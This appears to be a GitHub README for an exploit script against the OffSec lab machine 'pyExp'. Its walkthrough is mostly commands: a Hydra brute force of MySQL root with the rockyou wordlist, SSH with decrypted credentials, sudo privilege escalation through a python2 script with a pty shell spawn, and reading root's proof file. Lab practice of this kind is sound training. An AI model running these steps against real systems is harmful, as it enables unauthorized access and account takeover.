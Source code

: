 # Offsec-pyExp

```
Usage : python3 resolv-pyExp.py -i 192.168.182.118 -p 3306 -w /usr/share/wordlists/rockyou.txt
```

Specific Steps for pyExp

Reconnaissance: Scan to identify running services, particularly MySQL (tcp/3306) and SSH (tcp/1337).

Brute Force MySQL: Use Hydra to brute force MySQL access using the wordlist /usr/share/wordlist/rockyou.txt.

```bash
hydra -l root -P /usr/share/wordlist/rockyou.txt mysql://<IP_ADDRESS>:3306
```
Database Access: Extract the encrypted SSH credentials via the symmetric Fernet algorithm from the `data` table.

SSH Connection: Decrypt the credentials and connect via SSH on tcp/1337.

```bash
ssh <user>@<IP_ADDRESS> -p 1337
```
Privilege Escalation: The user 'lucy' can execute a script with root privileges without a password. Use it for privilege escalation.

```bash
sudo /usr/bin/python2 /opt/exp.py
import pty;pty.spawn("/bin/bash")
```

Flag Retrieval: Read the local.txt and proof.txt files after privilege escalation.

```bash
cat local.txt
cat /root/proof.txt
```
### Image
![offsec-pyExp1](https://github.com/Isid0r3/Offsec-pyExp/assets/120736091/14d169b5-e627-49d8-9c90-15a7ccd9bd16)


Credits : Isid0r3 & Jedidia
